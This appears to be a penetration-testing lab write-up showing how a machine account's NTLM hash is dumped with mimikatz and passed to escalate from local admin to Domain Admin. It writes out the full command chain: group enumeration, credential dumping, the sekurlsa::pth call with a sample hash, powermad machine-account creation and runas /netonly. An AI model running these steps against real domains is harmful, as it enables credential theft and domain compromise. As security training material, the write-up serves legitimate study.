# Pass the Hash with Machine$ Accounts

This lab looks at leveraging machine account NTLM password hashes or more specifically - how they can be used in pass the hash attacks to gain additional privileges, depending on which groups the machine is a member of \(ideally administrators/domain administrators\).

This labs is based on an assumption that you have gained local administrator privileges on a workstation \(machine\), let's call it `WS01$`. Since you have done your AD enumeration, you notice that the WS01$ is a member of `Domain Admins` group - congratulations, you are one step away from escalating from local admin to Domain Admin and a full domain compromise.

## Execution

Finding domain computers that are members of interesting groups:

{% code title="attacker@victim" %}
```csharp
Get-ADComputer -Filter * -Properties MemberOf | ? {$_.MemberOf}
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2018-12-29-16-03-19.png)

Of course, the same can be observed by simply checking the Domain Admins net group:

{% code title="attacker@victim" %}
```csharp
net group "domain admins" /domain
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2018-12-29-17-22-59.png)

or administrators group \(not applicable to our lab, but showing as a sidenote\):

{% code title="attacker@victim" %}
```csharp
net localgroup administrators /domain
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2018-12-29-17-24-07.png)

In AD, the highlighted part can be seen here:

![](../../.gitbook/assets/screenshot-from-2018-12-29-16-36-17.png)

Extracting the machine `WS01$` NTLM hash after the admin privileges were gained on the system:

{% code title="attacker@victim" %}
```csharp
sekurlsa::logonPasswords
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2018-12-29-15-29-17.png)

Let's check that our current compromised user `ws01\mantvydas` \(local admin on ws01\) cannot access the domain controller DC01 just yet:

![](../../.gitbook/assets/screenshot-from-2018-12-29-15-47-10.png)

Since WS01$ machine is a member of `Domain Admins` and we have extracted the machine's hash with mimikatz, we can use mimikatz to pass that hash and effectively elevate our access to Domain Admin:

{% code title="attacker@victim" %}
```csharp
sekurlsa::pth /user:ws01$ /domain:offense.local /ntlm:ab53503b0f35c9883ff89b75527d5861
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2018-12-29-15-52-35.png)

Below shows how the machine's hash is passed which results in an elevated cmd.exe prompt. Using the elevated prompt enables us to access the domain controller as shown with `dir \\dc01\c$`:

![](../../.gitbook/assets/peek-2018-12-29-15-49.gif)

## Remember

It's worth re-emphasizing that computer/machine accounts are essentially the same as user accounts and can be as dangerous if misconfigured.

Let's create a new machine account with powermad like so:

```csharp
New-MachineAccount -MachineAccount testmachine
```

![](../../.gitbook/assets/image%20%28217%29.png)

Now, let's say someone added the testmachine$ account into Domain Admins:

```csharp
Get-NetGroupMember "domain admins" | select membern*
```

![](../../.gitbook/assets/image%20%28171%29.png)

...if we somehow get hold of the testmachine$ password, we can escalate to a DA. We can check this by opening a new console and logging in as testmachine$ with `/netonly` flag. Note how initially the user spotless cannot list files on the DC01, but once `runas /user:testmachine$ /netonly powershell` is run and the password is provided, DC01 is no longer complaining and allows spotless listing its file system:

![](../../.gitbook/assets/image%20%2891%29.png)

## References

{% embed url="https://blog.secarma.co.uk/labs/using-machine-account-passwords-during-an-engagement" %}

{% embed url="https://www.c0d3xpl0it.com/2018/05/machine-accounts-in-pentest-engagement.html?m=1" %}

